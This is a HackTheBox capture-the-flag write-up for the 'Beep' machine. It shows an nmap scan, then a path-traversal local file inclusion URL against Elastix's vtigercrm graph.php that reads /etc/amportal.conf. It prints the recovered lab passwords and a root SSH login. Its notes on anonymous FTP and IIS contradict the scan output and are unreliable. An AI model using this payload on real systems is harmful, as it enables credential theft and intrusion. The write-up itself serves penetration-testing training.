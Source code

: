 ```yaml
---
layout: default
title: "Beep"
tags: hackthebox linux easy
---
```


| OS       | Difficulty | Points | Release Date  | IP Address  |
|----------|------------|--------|---------------|-------------|
| Linux    | Easy       | 20     | 15 March 2017 | 10.10.10.7  |



# Skills

>* NMap
>* Local File Inclusion
>* SSH

# Information Gathering

## Nmap (Port Scan)

```bash
sudo nmap -A -T4 -p- 10.10.10.7
```

This was the initial nmap scan. The key things to note are:
>* ftp-anon: Anonymous FTP login allowed (FTP code 230)
>* Files accessible from Anonymous login
>* 80/tcp open  http    Microsoft IIS httpd 7.5

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) STLS UIDL TOP EXPIRE(NEVER) PIPELINING USER AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: RIGHTS=kxte Completed LISTEXT QUOTA ID OK MULTIAPPEND IMAP4 STARTTLS UIDPLUS LITERAL+ URLAUTHA0001 X-NETSCAPE CONDSTORE MAILBOX-REFERRALS CATENATE LIST-SUBSCRIBED IDLE NAMESPACE THREAD=REFERENCES SORT ANNOTATEMORE THREAD=ORDEREDSUBJECT BINARY RENAME IMAP4rev1 SORT=MODSEQ NO CHILDREN ACL UNSELECT ATOMIC
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-14T01:36:36+00:00; +1m40s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=38075%PV=Y%DS=2%DC=T%G=Y%TM=5F0D0C5
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=C3%GCD=1%ISR=CF%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1m39s

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   24.28 ms 10.10.14.1
2   25.11 ms 10.10.10.7
2   26.88 ms 10.10.10.5
```

# Exploitation

## Elastix LFI Exploit

```bash 
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Exploit Source: https://www.exploit-db.com/exploits/37637

After researching the services running on the machine, I discovered that a service called "Elastix" (an interface tool for Aesterix based PBX's) was vulnerable to local file inclusion meaning that I was able to read any of the files on the machine. So, as you can see from the URL above, I manipulated the current_language parameter in the graphql file to read out the servers amportal config file, that would then give me the database usernames and passwords.

```bash

FreePBX Database configuration
AMPDBHOST: Hostname where the FreePBX database resides
AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
AMPDBUSER: Username used to connect to the FreePBX database
AMPDBPASS: Password for AMPDBUSER (above)
AMPENGINE: Telephony backend engine (e.g. asterisk)
AMPMGRUSER: Username to access the Asterisk Manager Interface
AMPMGRPASS: Password for AMPMGRUSER

AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

## SSh'ing in

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```

Now, admittedly I think I got lucky on this one, because it just so happened that the root password for the box was also in this file. So, using the command above, I was simply able to use SSH to gain access to the root account on the machine.

```bash
root@10.10.10.7s password: 
Last login: Tue Jul 14 04:31:58 2020 from 10.10.14.23

Welcome to Elastix...

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]
```

# User Flag

```bash
[root@beep ~] cd /
[root@beep /] cat $(find -iname "user.txt")
```

# Root Flag

```bash
[root@beep /] cat $(find -iname "root.txt")
```